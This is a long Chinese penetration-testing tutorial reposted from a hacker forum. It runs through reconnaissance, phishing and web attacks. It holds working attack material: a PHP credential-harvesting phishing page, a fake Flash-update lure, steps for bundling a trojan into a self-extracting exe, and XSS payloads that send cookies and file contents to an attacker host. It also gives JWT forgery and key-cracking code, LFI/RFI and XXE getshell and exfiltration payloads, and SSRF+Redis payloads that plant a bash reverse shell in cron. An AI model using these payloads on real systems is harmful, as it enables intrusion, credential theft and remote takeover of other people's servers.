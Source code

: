 转载from： https://www.cnhackteam.org/topic/770/


新手可根据自身情况模拟渗透测试，本地渗透测试环境搭建论坛也有说。希望大家好好学习 为维护网络安全贡献自身的一份力量，下面的教程非常非常详细 可能是你这辈子看过最长的技术文章哈哈哈，但你认真看，就会发现收获很多

域名历史IP
https://x.thrXXXbook.cn/

网站架构/服务器指纹/CMS识别/容器
Whatweb
网页源代码
请求头/响应头
网站底部，顶部，左上角右上角
网站报错信息
http://www.yunsee.cn/
域名/install
Firefox插件Wappalyzer
CMS漏洞
  定位版本对应已知漏洞检查
  CMS未知漏洞挖掘
Web容器已知漏洞(解析漏洞这种)
显示网站使用的技术
  https://builtwith.com/
中间件、组件
Weblogic、tomcat、zabbix、struts、axis等
https://github.com/FortyNorthSecurity/EyeWitness
子域名
老站、同样架构或同源码的子站
爆破，接口查询
  https://phpinfo.me/domain/
  https://d.chinacycc.com/index.php?m=Login&a=index
  subDomainBrute、knockpy
OWA发现、dig adfs、dig mail
https://dns.bufferover.run/dns?q=baidu.com
http://api.hackertarget.com/reversedns/?q=target.com
网站使用的CMS的官方demo站
找不到demo就找源码开发者，加群什么的，结合社会工程学要个后台截图(对于一些后台目录复杂的cms)，注意看网站上一些功能介绍的截图。
SSL证书信息
https://crt.sh/?q=%25.target.com
https://censys.io/certificates?q=target.com
https://github.com/cheetz/sslScrape
DNS历史解析记录
https://dnsdumpster.com/
https://censys.io/
https://securitytrails.com/
域传送漏洞检查
  Dnsenum、fierce
http://ha.ckers.org/fierce/ 
$ ./fierce.pl -dns example.com 
$ ./fierce.pl –dns example.com –wordlist myWordList.txt
>dig @ns.example.com example=.com AXFR 
>nslookup -type=ns xxx.yyy.cn #查询解析某域名的DNS服务器
>nslookup #进入nslookup交互模式
>server dns.domian.com #指定dns服务器
>ls xxx.yyy.cn #列出域信息
同服站点情况
https://site.ip138.com/
火狐插件flagfox,配置单击指向bing查ip对应的域名
同样架构或源码的站
网站js
https://github.com/003random/getJS
https://github.com/Threezh1/JSFinder
或浏览器F12也可以看到加载的
敏感信息、可能存在漏洞的参数等信息
查看网页源代码，注释的一些信息，比如没有删掉的接口、前台没有的页面、越权、注入、js等
网站使用的第三方js
云信息
Aliyun、AWS、GCP、Azure等
查找可公开访问的实例
  https://github.com/gwen001/s3-buckets-finder
  https://github.com/nccgroup/aws-inventory
  https://github.com/jordanpotti/AWSBucketDump
APP反编译
url、js、osskey、api等信息查找
搜集到接口该怎么做
  Fuzz常见参数
C段/B段信息
Banner、是否存在目标的后台或其他入口/其他业务系统
工具
recon-ng,theharvester,maltego,exiftool等
https://www.spiderfoot.net/
https://github.com/smicallef/spiderfoot
端口对外开放情况
Masscan、scanport等
针对常见的那些端口的利用的常规方法
常见的未授权访问的服务如redis，mongodb等
目录扫描/爬虫(慎用)
WAF情况识别
https://github.com/EnableSecurity/wafw00f
做好绕过策略的计划
随手测试
单引号
xx.jpg/.php
admin/123456
万能密码
Heartbleed漏洞
搜索引擎
Google自定义搜索引擎整合的300多个社交网站
  https://cse.google.com/cse?key=AIzaSyB2lwQuNzUsRTH-49FA7od4dB_Xvu5DCvg&cx=001794496531944888666:iyxger-cwug&q=%22%22
Google自定义搜索引擎整合的文件共享网站
  https://cse.google.com/cse/publicurl?key=AIzaSyB2lwQuNzUsRTH-49FA7od4dB_Xvu5DCvg&cx=001794496531944888666:hn5bcrszfhe&q=%22%22
领英用户提取
  https://cse.google.com/cse?cx=001394533911082033616:tm5y1wqwmme
Shodan/fofa/zoomeye
Google dorks
 Site,filetype,intitle,inurl,intext等
信息泄露
电话、邮箱，姓名
目录遍历
备份文件
  (www.zip,xx.com.zip,www.xx.com.zip,wwwroot.zip)
.svn/.git/sql/robots/crossdomin.xml/DS_Store等
  https://github.com/lijiejie/ds_store_exp
  https://github.com/admintony/svnExploit
若是论坛ID=1的用户名一般为管理、或查看帖子信息、生成字典
网页上客服的QQ(先判断是企业的还是个人，用处有时不太大，看怎么用，搞个鱼叉什么的)
网页缓存
http://www.cachedpages.com/
图片反查
百度识图、googleimage、tineye
原图查询坐标
社交
QQ、weibo、支付宝、脉脉、领英、咸鱼、短视频、人人、贴吧、论坛
外网信息
有些人喜欢把自己的生活传到外网
  推特、ins、fb等
手机号加入通讯录匹配各个APP用户信息
注册过的网站
https://www.reg007.com/
https://www.usersearch.org/
目标人员的兴趣
	目标人员的兴趣 注册过的小众论坛，站点
针对此类站点的深入
收集到的用户名，电话等信息生成字典
邮箱搜集
https://hunter.io/
https://github.com/killswitch-GUI/SimplyEmail
Exchange
https://github.com/dafthack/MailSniper
验证邮箱是否存在
https://tools.verifyemailaddress.io/
历史泄露过的资料等
库
https://haveibeenpwned.com/
https://github.com/kernelmachine/haveibeenpwned
Github/Gitee等代码托管平台
https://github.com/dxa4481/truffleHog
https://github.com/lijiejie/GitHack
https://github.com/MiSecurity/x-patrol
https://github.com/az0ne/Github_Nuggests
https://github.com/mazen160/GithubCloner克隆用户的github
被入侵网址列表
http://zone-h.org/archive
wooyun镜像查找目标企业曾出现的漏洞
GPS查询
https://www.opengps.cn/Default.aspx
网站URL提取
http://www.bulkdachecker.com/url-extractor/
蜜罐判断(参考一下即可)
https://honeyscore.shodan.io/
默认密码
https://default-password.info/
http://routerpasswords.com
如需注册
Sms
  https://www.materialtools.com/
  http://receivefreesms.com/
Email
  https://10minutemail.net/
  https://zh.mytrashmailer.com/
  http://24mail.chacuo.net/enus
  https://www.linshiyouxiang.net/
Fake id
  https://www.fakenamegenerator.com/
  http://www.haoweichi.com/
  https://www.fakeaddressgenerator.com/
企业信息
天眼查、企查查、企业信用信息公示系统
企业邮箱收集，企业架构画像、人员统计、人员职责、部门、WiFi、常用部门密码、人员是否泄露过密码、人员平时爱逛的站点、OA/erp/crm/sso/mail/vpn等入口、网络安全设备（waf,ips,ids,router等统计）、内部使用的代码托管平台(gitlab、daocloud等)，bug管理平台、服务器域名资产统计
入口点
win10 安装kali(wsl)
Microsoft Store查找kali下载。
Powershell执行
>Enable-WindowsOptionalFeature -Online -FeatureName Microsoft-Windows-Subsystem-Linux
源设置vim /etc/apt/source.list
deb http://mirrors.tuna.tsinghua.edu.cn/kali kali-rolling main contrib non-free 
deb-src https://mirrors.tuna.tsinghua.edu.cn/kali kali-rolling main contrib non-free
deb http://mirrors.zju.edu.cn/kali kali-rolling main contrib non-free
deb-src http://mirrors.zju.edu.cn/kali kali-rolling main contrib non-free
>sudo su
>passwd root修改root密码
>apt-get update &apt-get upgrade 更新
>apt-get dist-upgrade 
>apt-get clean
cmd>kali config --default-user root 设置默认启动用户为root
cmd>net stop/start LxssManager重启服务
>apt-get install metasploit-framework
>apt install kali-linux-full 安装完整kali工具集
水坑攻击
XSS克隆钓鱼
保存js&css到服务器，登录action改为接受密码的文件action="./pass.php"
<?php //php
  $user=$_POST['username'];
  $pass=$_POST['password'];
  $file=fopen('pass.txt','a+');
  fwrite($file,$user."|"."pass" . "\n");
  fclose($file);
  echo "<script>window.location.href=\"http://192.168.0.1\"</script>\n";
?>
构造payload
<script>window.location.href="http://192.168.0.1/login.html"</script>
php –S 0.0.0.0:8080 –t ./
伪造页面钓鱼
1
https://github.com/r00tSe7en/Fake-flash.cn
添加xss平台模块
window.alert = function(name){
var iframe = document.createElement("IFRAME");
iframe.style.display="none";
iframe.setAttribute("src",'data:text/plain');
document.documentElement.appendChild(iframe);
window.frames[0].window.alert(name);
iframe.parentNode.removeChild(iframe);
}
alert("您的FLASH版本过低，尝试升级后访问该页面！");
window.location.href="http://www.flash.com";
制作自解压捆绑
一个马.exe，一个正常exe，全选，winrar添加到压缩文件，选择创建自解压格式压缩文件，高级->自解压选项，设置解压路径，c:\windows\temp\，设置->解压后运行两个exe文件，模式全部隐藏，更新，解压并更新文件，覆盖所有文件。
ResourceHacker修改文件图标
2
  if(empty($_COOKIE['flash'])){
      echo '<script>alert("你当前计算机的Flash软件已经很久未更新，将导致无法正常显示界面内容，请下载安装最新版本！");window.location="http://www.flash.cn.xx.com/"</script>';
      setcookie("flash","true",time()+30*2400);
  }
对外服务攻击
Web
前端/逻辑漏洞
注册
任意用户注册
可爆破用户名
注入
XSS
登录
爆破用户名，密码
注入
万能密码
Xss
Xss+Csrf
修改返回包信息，登入他人账户
修改cookie中的参数，如user,adminid等
任意密码重置
1．重置一个账户，不发送验证码，设置验证码为空发送请求。
2．发送验证码，查看相应包
3．验证码生存期的爆破
4．修改相应包为成功的相应包
5．手工直接跳转到校验成功的界面
6．两个账户，重置别人密码时，替换验证码为自己正确的验证码
7．重置别人密码时，替换为自己的手机号
8．重置自己的成功时，同意浏览器重置别人的，不发验证码
9．替换用户名，ID，cookie，token参数等验证身份的参数
10．通过越权修改他人的找回信息如手机/邮箱来重置
信息泄露
HTML源码、JS等查看信息搜集一章
后台
登录参数修改为注册参数/reg、/register、/sign等
JWT攻击手法
https://jwt.io/#debugger-io
未校验签名
将原JWT串解码后修改用户名等身份认证的地方，生成新token发送请求
禁用哈希
image

Alg代表加密方式，修改用户名等身份认证的地方，把HS256设置为none生成token发送请求，使用python的pyjwt模块
image

jwt.encode({'user':'admin','arg1':'value1','arg2':'value2'},algorithm='none',key='')
暴破弱密钥
>pip3 install pyjwt
>python3 crack.py
import jwt
import termcolor

jwt_str = R'token'
with open('/root/password.txt') as f:
  for line in f:
  key_ = line.strip()
  try:
    jwt.decode(jwt_str,verify=True,key=key_)
    print('\r','\bfound key -->',termcolor.colored(key_,'green'),'<--')
    break
  except(jwt.exceptions.ExpiredSignatureError,jwt.exceptions.InvalidAudienceError,jwt.exceptions.InvalidIssuedAtError,jwt.exceptions.InvalidIssuedAtError,jwt.exceptions.ImmatureSignatureError):
    print('\r','\bfound key -->',termcolor.colored(key_,'green'),'<--')
  except jwt.exceptions.InvalidSignatureError:
    print('\r',' ' * 64, '\r\btry',key_,end='',flush=True)
    continue
else:
  print('\r','\bnot found.')
XSS
打COOKIE
<svg/onload="javascript:document.location.href=('http://xx.xx.xx.xx:7777?cookie='+document.cookie)">
读取HTML
<svg/onload="document.location='http://xx.xx.xx.xx:7777/?'+btoa(document.body.innerHTML)">
读文件
<svg/onload="
xmlhttp=new XMLHttpRequest();
xmlhttp.onreadystatechange=function()
{
	if (xmlhttp.readyState==4 && xmlhttp.status==200)
	{
		document.location='http://xx.xx.xx.xx:7777/?'+btoa(xmlhttp.responseText);
	}
}
xmlhttp.open("GET","file.php",true);
xmlhttp.send();
">
XSS+SSRF读取服务器文件

<svg/onload="
xmlhttp=new XMLHttpRequest();
xmlhttp.onreadystatechange=function()
{
if (xmlhttp.readyState==4 && xmlhttp.status==200)
{
    document.location='http://vps_ip:23333/?'+btoa(xmlhttp.responseText);
}
}
xmlhttp.open("POST","request.php",true);
xmlhttp.setRequestHeader("Content-type","application/x-www-form-urlencoded");
xmlhttp.send("url=file:///etc/passwd");
">
CSRF
查看有无token等验证身份的参数，删掉后是否返回正常
查看header中referer,origin参数，删掉后是否返回正常
使用csrftester/burpsuite生成表单，以另一账号和浏览器打开测试
去掉referer中域名后面的文件夹或文件
替换二级域名
php任意文件读取/下载
readfile()、file_get_contents()、fopen()等读文件的函数不严谨，读取文件路径可控，输出内容。
下载配置文件
Redis、Weblogic、ftp、mysql、web配置文件、history文件、数据库配置文件
下载log文件
下载web文件
/1.php?f=../../etc/passwd
/1.php?f=file:///etc/passwd(file://绕过../的防护)
/1.php?f=file:///etc/passwd
php文件包含
函数:
include
require
include_once
require_once
常用协议
file:// — 访问本地文件系统
file协议的工作目录是当前目录，使用file:///wwwroot/1.php等同于./wwwroot/1.php可用于绕过一些情况
php:// — 访问各个输入/输出流（I/O streams）
image

读取
/1.php?file=php://filter/read=convert.base64-encode/resource=./1.php
写入
/1.php?file=php://filter/write=convert.base64-decode/resource=[file]","base64
Getshell
https://github.com/D35m0nd142/LFISuite
allow_url_include 开启时Getshell
远程文件包含
/1.php?file=http://remote.com/shell.txt
/1.php?file=php://input  POST:<?php phpinfo();?>
或使用curl
>curl -v "http://127.0.0.1:8888/ctf/cli/3.php?file=php://input" -d "<?php phpinfo();?>"
或使用data://协议解析base64的代码
/1.php?file=data://text/plain;base64,PD9waHAgIHBocGluZm8oKTs/Pg==
allow_url_include 关闭时Getshell
攻击机开启共享
/1.php?file=//attacker/1.php
创建webdav服务，shell文件放入目录包含即可
>docker run -v /root/webdav:/var/lib/dav -e ANONYMOUS_METHODS=GET,OPTIONS,PROPFIND -e LOCATION=/webdav -p 80:80 --rm --name webdav bytemark/webdav
Shell文件放入/root/webdav/data
/1.php?file=//attacker/1.php
包含日志文件getshell
Fuzz文件
https://github.com/fuzzdb-project/fuzzdb
https://github.com/danielmiessler/SecLists
https://blog.csdn.net/qq_33020901/article/details/78810035
/1.php?file=<?php phpinfo();?>
/1.php?file=../../../../../../../var/log/apache2/access.log
Win下使用phpstudy
请求/<?php phpinfo();?>
包含错误日志
/1.php?file=C:\phpStudy\Apache\logs\error.log
上传个图片格式的木马直接包含
/1.php?file=/uploadfile/1.jpg
限制后缀时
<?php
$file = $_GET['file'].".php";
include($file);
?><br>
利用伪协议zip，构造一个zip压缩包，打包一个shell.php，将压缩包更名为png
image

请求/1.php?file=zip://shell.png%23shell
image

也可使用phar协议访问
/1.php?file=phar://shell.png/shell
老版本可以使用%00截断
/etc/passwd%00
(需要 magic_quotes_gpc=off，PHP小于5.3.4有效)
/var/www/%00
/etc/passwd/././././././.[…]/./././././.
(需要 magic_quotes_gpc=off
(php版本小于5.2.8(?)可以成功，linux需要文件名长于4096，windows需要长于256)
点号截断：
/boot.ini/………[…]…………
(php版本小于5.2.8(?)可以成功，只适用windows，点号需要长于256)
phpinfo-LFI 本地文件包含临时文件getshell
利用临时文件删除时间差获取shell
需要一个lfi漏洞+phpinfo页面
在/tmp/目录下生成个密码为f的一句话木马g
image

修改脚本的phpinfo文件名称
image

LFI文件
image

执行
>python getshell.py 192.168.0.108 80 100
80是端口、100是线程
image image

http://192.168.0.110/index.php?file=../../../tmp/g&f=echo%20%271%27
session + lfi getshell
session.upload_progress.enabled启用时，文件上传会产生进度文件
/var/lib/php5/sess_
/var/lib/php/sess_
LFI SSH Log
>ssh '<?php system($_GET['c']); ?>'@192.168.0.107
>http://192.168.0.107/lfi.php?file=/var/log/auth.log&c=ls
RFI&命令注入上线MSF
MSF生成
#use exploit/multi/script/web_delivery
#set target PHP
注入点注入：
php -d allow_url_fopen=true -r "eval(file_get_contents('http://192.168.0.107:1234/OgsOFaj3yKH'));"
RFI：
http://www.xx.com/file=http://192.168.0.107:1234/OgsOFaj3yKH
XML
XML设计的宗旨是传输数据，而非显示数据
XXE=XML外部实体注入、XML=可扩展标记语言
Xml文件声明
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
DTD为XML的文档类型定义
引入外部DTD
<!DOCTYPE 根元素 SYSTEM "filename">
参数实体+外部实体
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE test [
	<!ENTITY % file SYSTEM "file:///etc/passwd">
	%file;
]>
XML注入
闭合标签，改写xml文件，用户可控，有拼接代码
<?xml version="1.0" encoding="utf-8"?>
<manager>
	<admin id="1">
<username>admin</username>
<password>admin</password>
</admin>
<admin id="2">
<username>root</username>
<password>root</password>
</admin>
</manager>
若是password可控，拼接代码形成注入
admin </password></admin><admin id="3"><name>hack</name><password>hacker</password></admin>
XXE
https://github.com/AonCyberLabs/xxe-recursive-download
程序解析XML输入时，未禁止外部实体的加载，造成任意文件读取、命令执行、内网端口扫描、攻击内网网站、发起Dos攻击等危害
判断
回显路径
	<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [<!ENTITY % remote SYSTEM "test">%remote;]>
DNSLOG
	http://www.dnslog.cn/
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [<!ENTITY dtd SYSTEM "http://xxx.dnslog.cn/xxe">]>
<xxe>&dtd;</xxe>
Webdav
	存在webdav可使用PROPPATCH、PROPFIND、 LOCK等请求方法接受xml输入形成xxe
Wsdl使用AWVS测试
挖掘
如遇与xml交互的地方
<?xml version="1.0" encoding="UTF-8"?> 
<!DOCTYPE ANY [  
<!ENTITY test "this is test"> 
]> 
<root>&test;</root>
看是否输出
检查是否支持外部实体
<?xml version="1.0" encoding="UTF-8"?> 
<!DOCTYPE ANY [  
<!ENTITY % foo SYSTEM "http://attacker/evil.xml"> 
%foo;
]> 
查看你的服务器是否有请求
JSON content-type XXE
修改Content-Type: application/xml
X-Requested-With: XMLHttpRequest
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE netspi [<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<root>
<参数name>name</参数name>
<参数value>&xxe;</ 参数value>
</root>
有回显读取本地文件
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE creds [  
<!ENTITY goodies SYSTEM "file:////etc/passwd"> ]> 
<creds>&goodies;</creds>
也可去掉文件列目录
file:///root/.sh/id_rsa
特殊字符
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE roottag [
<!ENTITY % start "<![CDATA[">   
<!ENTITY % goodies SYSTEM "file:////tmp/xxx.txt">  
<!ENTITY % end "]]>">  
<!ENTITY % dtd SYSTEM "http://attacker/evil.dtd"> 
%dtd; ]> 
<roottag>&all;</roottag>
evil.dtd
<?xml version="1.0" encoding="UTF-8"?> 
<!ENTITY all "%start;%goodies;%end;">
Blind OOB XXE无回显读取
需使用参数实体，引用外部DTD
Payload
<!DOCTYPE convert [ 
<!ENTITY % remote SYSTEM "http://ip/test.dtd">
%remote;%int;%send;
]>
test.dtd
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///etc/passwd">
<!ENTITY % int "<!ENTITY &#37; send SYSTEM 'http://attacker:9999?p=%file;'>">
列目录
远程payload
<!ENTITY % a SYSTEM "file:///"> <!ENTITY % b "<!ENTITY &#37; c SYSTEM 'gopher://ip:80/%a;'>"> %b; %c;
注入payload
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [<!ENTITY % remote SYSTEM "http://attacker:80/1.xml">%remote;]><root/>
不同平台支持的协议
image

执行命令
安装expect扩展的PHP环境里执行系统命令，其他协议也有可能可以执行系统命令。
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE xxe [
<!ELEMENT name ANY >
<!ENTITY xxe SYSTEM "expect://id" >]>
<root>
<name>&xxe;</name>
</root>
内网主机探测
可先读取/etc/network/interfaces、/proc/net/arp、/etc/hosts等文件查询IP段
使用脚本
内网端口扫描
<?xml version="1.0" encoding="utf-8"?>  
<!DOCTYPE data SYSTEM "http://127.0.0.1:515/" [  
<!ELEMENT data (#PCDATA)>  
]>
<data>4</data>
可使用burpsuite的intruder模块进行遍历
内部DTD利用
Linux
	<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
	<!ENTITY % ISOamsa 'Your DTD code'>
%local_dtd;
Windows
<!ENTITY % local_dtd SYSTEM "file:///C:\Windows\System32\wbem\xml\cim20.dtd">
<!ENTITY % SuperClass '>Your DTD code<!ENTITY test "test"'>
%local_dtd;
<?xml version="1.0" ?>
<!DOCTYPE message [
<!ENTITY % local_dtd SYSTEM "file:///opt/IBM/WebSphere/AppServer/properties/sip-app_1_0.dtd">

<!ENTITY % condition 'aaa)>
    <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
    <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
    &#x25;eval;
    &#x25;error;
    <!ELEMENT aa (bb'>

%local_dtd;
]>
<message>any text</message>
XXE写shell
当XXE支持XSL时
<?xml version='1.0'?>
<xsl:stylesheet version="1.0"
xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
xmlns:msxsl="urn:schemas-microsoft-com:xslt"
xmlns:user="http://mycompany.com/mynamespace">
<msxsl:script language="C#" implements-prefix="user">
<![CDATA[
public string xml()
{
    System.Net.WebClient webClient = new System.Net.WebClient();
    webClient.DownloadFile("https://x.x.x.x/shell.txt",
                   @"c:\inetpub\wwwroot\shell.aspx");

return "Exploit Success";
}
]]>
</msxsl:script>
<xsl:template match="/">
<xsl:value-of select="user:xml()"/>
</xsl:template>
</xsl:stylesheet>
SSRF
定义
服务端请求伪造
构造一个由服务器发出请求的漏洞
服务端提供了从其他服务器应用获取数据的功能且没有对目标地址做过滤与限制
成因
file_get_contents()、fsockopen()、curl_exec()、fopen()、readfile()等函数使用不当会造成SSRF漏洞
挖掘
转码服务
在线翻译
获取超链接的标题等内容进行显示
请求远程服务器资源的地方，图片加载与下载(通过URL地址加载或下载图片)
图片、文章收藏功能
对外发起网络请求的地方，网站采集、网页抓取的地方。
头像 (远程加载头像)
一切要你输入网址的地方和可以输入ip的地方。
数据库内置功能(mongodb的copyDatabase函数)
邮件系统
文件处理
在线处理工具
从URL关键字中寻找：share、wap、url、link、src、source、target、u、3g、display、sourceURl、imageURL、domain
XML
<!ENTITY % d SYSTEM "http://wuyun.org/evil.dtd">
<!ENTITY % file system "file:///etc/passwd" >
<!ENTITY % d SYSTEM "http://wuyun.org/file?data=%file">
<!DOCTYPE roottag PUBLIC "-//VSR//PENTEST//EN" "http://wuyun.org/urlin">
<xenc:AgreementMethod Algorithm= "http://wuyun.org/1">
<xenc:EncryptionProperty Target= "http://wuyun.org/2">
<xenc:CipherReference URI= "http://wuyun.org/3">
<xenc:DataReference URI= "http://wuyun.org/4">
<Reference URI="http://wuyun.org/5">
<To xmlns="http://www.w3.org/2005/08/addressing">http://wuyun.org/to</To>
<ReplyTo xmlns="http://www.w3.org/2005/08/addressing">
<Address>http://wuyun.org/rto</Address>
<input message="wooyun" wsa:Action="http://wuyun.org/ip" />
<output message="wooyun" wsa:Action="http://wuyun.org/op" />
<wsp:PolicyReference URI=“http://wuyun.org/pr">
<fed:Federation FederationID="http://wuyun.org/fid">
<fed:FederationInclude>http://wuyun.org/inc</fed:FederationInclude>
<fed:TokenIssuerName>http://wuyun.org/iss</fed:TokenIssuerName>
<mex:MetadataReference>
<wsa:Address>http://wuyun.org/mex</wsa:Address>
</mex:MetadataReference>
<edmx:Reference URI="http://wuyun.org/edmxr">
<edmx:AnnotationsReference URI="http://wuyun.org/edmxa">
<xbrli:identifier scheme="http://wuyun.org/xbr">
<link:roleType roleURI="http://wuyun.org/role">
<stratml:Source>http://wuyun.org/stml</stratml:Source>
数据库
MongoDB
db.copyDatabase('\r\nconfig set dbfilename ssrf\r\nquit\r\n’,'test','10.6.4.166:6379')
PostgresSQL
SELECT dblink_send_query(
 'host=127.0.0.1 
dbname=quit 
user=\'\r\nconfig set dbfilename wyssrf\r\n\quit\r\n' 
password=1 port=6379 sslmode=disable', 
'select version();’ 
);
MSSQL
SELECT openrowset('SQLOLEDB', 'server=192.168.1.5;uid=sa;pwd=sa;database=master')
SELECT * FROM OpenDatasource('SQLOLEDB', 'Data Source=ServerName;User ID=sa;Password=sa' ) .Northwind.dbo.Categories
图片处理函数
FFmpeg
concat:http://wyssrf.wuyun.org/header.y4m|file:///etc/passwd
ImageMagick
fill 'url(http://wyssrf.wuyun.org)'
攻击
测试代码,需安装phpcurl模块apt-get install php7.0-curl
<?php
echo 'r u ok?';
function curl($url){  
$ch = curl_init();
curl_setopt($ch, CURLOPT_URL, $url);
curl_setopt($ch, CURLOPT_HEADER, 0);
curl_exec($ch);
curl_close($ch);
}
$url = $_GET['url'];
curl($url);
?>
对内网、本地进行端口扫描，获取服务的banner 信息
攻击运行在内网或本地的应用程序
对内网 WEB 应用进行指纹识别，通过访问默认文件实现(如：readme文件)
攻击内外网的 web 应用，主要是使用 GET 参数就可以实现的攻击(如：Struts2，sqli)
读取内网资源(如：利用file协议读取本地文件等)
跳板
无视cdn
利用Redis未授权访问，HTTP CRLF注入实现getshell
文件读取
>curl -v 'http://192.168.0.110/ssrf.php?url=file:///etc/passwd'
image

?url=php://filter/read=convert.base64-encode/resource=./1.php
端口探测
>curl -v 'http://www.xx.com/ssrf.php?url=dict://127.0.0.1:22/'
image

>curl -v 'http://www.xx.com/ssrf.php?url=dict://127.0.0.1:6379/info'
image

SSRF+Redis
>curl -v 'http://192.168.0.112/ssrf.php?url=gopher://192.168.0.120:6379/_*1%250d%250a%248%250d%250aflushall%250d%250a%2a3%250d%250a%243%250d%250aset%250d%250a%241%250d%250a1%250d%250a%2464%250d%250a%250d%250a%250a%250a%2a%2f1%20%2a%20%2a%20%2a%20%2a%20bash%20-i%20%3E%26%20%2fdev%2ftcp%2f192.168.0.108%2f12345%200%3E%261%250a%250a%250a%250a%250a%250d%250a%250d%250a%250d%250a%2a4%250d%250a%246%250d%250aconfig%250d%250a%243%250d%250aset%250d%250a%243%250d%250adir%250d%250a%2416%250d%250a%2fvar%2fspool%2fcron%2f%250d%250a%2a4%250d%250a%246%250d%250aconfig%250d%250a%243%250d%250aset%250d%250a%2410%250d%250adbfilename%250d%250a%244%250d%250aroot%250d%250a%2a1%250d%250a%244%250d%250asave%250d%250aquit%250d%250a'
image image

302反弹shell
?url=http://xxxx/302.php?s=dict&ip=10.20.*.*&port=6379&data=flushall
302.php
<?php
$ip = $_GET['ip'];
$port = $_GET['port'];
$scheme = $_GET['s'];
$data = $_GET['data'];
header("Location: $scheme://$ip:$port/$data");
?>
?url=http://xxxx/reverse.php?s=dict&ip=10.20.*.*&port=6379&bhost=*.*.*.*&bport=1234
reverse.php
<?php
$ip = $_GET['ip'];
$port = $_GET['port'];
$bhost = $_GET['bhost'];
$bport = $_GET['bport'];
$scheme = $_GET['s'];
header("Location: $scheme://$ip:$port/set:0:\"\\x0a\\x0a*/1\\x20*\\x20*\\x20*\\x20*\\x20/bin/bash\\x20-i\\x20>\\x26\\x20/dev/tcp/{$bhost}/{$bport}\\x200>\\x261\\x0a\\x0a\\x0a\"");
?>
?url=http://xxxx/302.php?s=dict&ip=10.20.*.*&port=6379&data=config:set:dir:/var/spool/cron/
?url=http://xxxx/302.php?s=dict&ip=10.20.*.*&port=6379&data=config:set:dbfilename:root
?url=http://xxxx/302.php?s=dict&ip=10.20.*.*&port=6379&data=save
可设置burp–>intruder指定变量跑。
Mysql
https://github.com/FoolMitAh/mysql_gopher_attack
https://fireshellsecurity.team/isitdtu-friss/
Weblogic SSRF+Redis
探测
/uddiexplorer/SearchPublicRegistries.jsp?rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Business+location&btnSubmit=Search&operator=http://127.0.0.1:80
Redis反弹
set 1 "\n\n\n\n* * * * * root bash -i >& /dev/tcp/121.36.67.230/4444 0>&1\n\n\n\n"
config set dir /etc/
config set dbfilename crontab
save
/uddiexplorer/SearchPublicRegistries.jsp?rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Business+location&btnSubmit=Search&operator=http://192.168.0.110:6379/test%0D%0A%0D%0Aset%201%20%22%5Cn%5Cn%5Cn%5Cn*%20*%20*%20*%20*%20root%20bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F121.36.67.230%2F4444%200%3E%261%5Cn%5Cn%5Cn%5Cn%22%0D%0Aconfig%20set%20dir%20%2Fetc%2F%0D%0Aconfig%20set%20dbfilename%20crontab%0D%0Asave%0D%0A%0D%0Aaaa
SSRF+内网Struct2
http://www.xx.com/ssrf.php?url=http://10.1.1.1/action?action?redirect:http://attackerip/
Ueditor SSRF
/editor/ueditor/php/controller.php?action=catchimage&source[]=http://my.ip/?aaa=1%26logo.png
Discuz
/forum.php?mod=ajax&action=downremoteimg&message=[img=1,1]http://b182oj.ceye.io/xx.jpg[/img]&formhash=xxoo
探测存活主机
直接访问
http://www.xx.com/ssrf.php?url=http://192.168.0.1
image

伪造POST请求
>curl -v 'http://www.xx.com/ssrf.php?url=gopher://192.168.0.10:80/_POST%20/post.php%20HTTP/1.1%250d%250aHost:%20192.168.220.139%250d%250aUser-Agent:%20curl/7.42.0%250d%250aAccept:%20*/*%250d%250aContent-Type:%20application/x-www-form-urlencoded%250d%250a%250d%250acmd=bbbbb'
绕过方法
本地绕过
http://127.0.0.1=http://localhost
[::]绕过
http://[::]:80=http://127.0.0.1
@绕过
http://www.xx.com/1.php?url=http://www.xx.com@127.0.0.1:8080
利用短网址
http://tool.chinaz.com/tools/dwz.aspx
http://dwz.cn/
DNS解析
http://www.qq.com.127.0.0.1.xip.io，可解析为127.0.0.1
自己域名设置A记录，指向127.0.0.1
进制转换
127.0.0.1
八进制：0177.0.0.1
